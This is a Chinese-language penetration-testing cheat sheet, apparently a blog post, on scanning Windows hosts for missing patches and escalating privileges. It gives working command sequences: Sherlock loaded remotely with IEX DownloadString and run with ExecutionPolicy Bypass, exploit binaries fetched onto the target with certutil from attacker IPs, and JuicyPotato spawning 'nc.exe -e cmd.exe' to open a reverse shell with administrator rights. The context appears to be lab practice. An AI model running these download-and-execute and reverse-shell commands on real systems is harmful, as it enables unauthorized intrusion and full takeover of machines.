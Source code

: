 ```yaml
---
title: Windows漏洞扫描与提权
date: 2021/12/12
tags: [windows,渗透测试,漏洞利用]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
---
```




# windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)
  - **[使用方法](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)**


>```
>初步使用本地加载脚本
>Import-Module Sherlock.ps1
>
>远程加载脚本
>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
>
>在不触发脚本执行检测的情况下运行Sherlock
>powershell -ExecutionPolicy Bypass -File Sherlock.ps1
>```

>- 使用**Meterpreter**
>
>1. 加载powershell  
>
>```
>load powershell
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-30.png)
>
>2. 导入 Sherlock 脚本。找到包含它的文件夹 (第一次可能不成功，多试几次)
>
>```
>powershell_import ‘Sherlock.ps1’
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-31.png)
>
>3. 运行脚本 (第一次可能不成功，多试几次)
>
>```
>powershell_execute “Find-allvulns”
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-32.png)

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)

>- 在windows靶机中接收脚本文件
>
>```
>certutil -f -urlcache http://10.10.14.31:8000/chimichurri.exe chimichurri.exe
>```
>
>- 本地机器nc监听端口, 靶机上使用脚本文件
>
>```
>chimichurri.exe ip port
>```
>
>- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

- 脚本 [juicyPotato.exe](https://github.com/ohpe/juicy-potato/releases)

>- 首先使用`whoami \priv` 查看用户权限，如果用户拥有`SeImpersonate`或`SeAssignPrimaryToken`权限，则这个脚本就适用
>- 上传到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/JuicyPotato.exe juicyPotato.exe
>```
>
>- 上传nc.exe到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/nc64.exe nc.exe
>```
>
>- 使用juicyPotato.exe
>
>```
>juicyPotato.exe  -l 5837 -t t -p C:\Windows\System32\cmd.exe   -a "/cc:\users\public\nc.exe -e cmd.exe 192.168.119.150 5555"
>```
>
>- 查看本地监听的端口，成功获取管理员权限
>
>